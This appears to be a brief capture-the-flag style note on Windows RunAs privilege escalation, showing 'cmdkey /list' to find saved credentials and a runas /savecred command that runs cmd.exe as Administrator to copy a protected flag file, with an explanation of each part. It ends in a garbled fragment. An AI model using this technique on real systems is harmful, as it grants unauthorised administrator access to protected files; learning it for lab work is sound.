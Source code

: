 # RunAs

Allows a user to run specific tools and programs with different permissions than the user's current logon provides.

**Runas** is a command-line tool that is built into Windows Vista. To use **runas** at the command line, open a command prompt, type **runas** with the appropriate parameters, and then press ENTER.

## RunAs Privilege Escalation via Stored Credentials

Finding stored credentials can be accomplished using one simple command:

```
cmdkey /list
```

- **Command Execution**:
    
    ```
    C:\Users\security>C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Adminstrator\Desktop/root.txt > C:\Users\Security/root.txt"
    ```
    
- **Explanation**:
    
    - **`runas.exe`**: This command is used to run a program as another user. In this case, it's running as the `Administrator` user.
    - **`/user:ACCESS\Administrator`**: Specifies the user account to run the command as.
    - **`/savecred`**: Saves the credentials for the specified user so you don't have to enter the password each time.
    - **`cmd.exe /c`**: Runs the specified command and then terminates.
    - **`TYPE C:\Users\Adminstrator\Desktop/root.txt`**: Reads the contents of the `root.txt` file located on the Administrator's desktop.
    - **`> C:\Users\Security/root.txt`**: Redirects the output (contents of `root.txt`) to a new file called `root.txt` in the `C:\Users\Security` directory

can uruns a
